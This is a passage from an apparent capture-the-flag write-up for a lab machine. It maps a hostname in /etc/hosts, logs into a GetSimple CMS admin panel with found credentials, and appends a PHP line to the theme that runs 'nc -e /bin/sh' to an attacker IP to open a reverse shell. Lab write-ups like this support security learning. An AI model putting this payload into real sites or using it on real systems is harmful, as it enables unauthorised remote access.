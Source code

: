 We are looking for `ourcms.mofo.pwn` so now let's just edit the `/etc/hosts` to be able to access it.

`127.0.0.1 ourcms.mofo.pwn`

We used local host IP because we are port forwarding.

Now if we visit `ourcms.mofo.pwn:8080` we'll see that CMS

![](images/fugit/cms.png)

***

## CMS

Since this is the `GetSimple` CMS we can just open the login panel using `/admin` and then use the creds(`admin:hardEnough4u`) we found to login.

Now we can see that we are admin so we can just edit the theme to get a reverse shell.

I add  `<?php exec('nc -e /bin/sh 192.168.1.107 5689'); ?>` to the end of theme code.

![](images/fugit/edit.png)
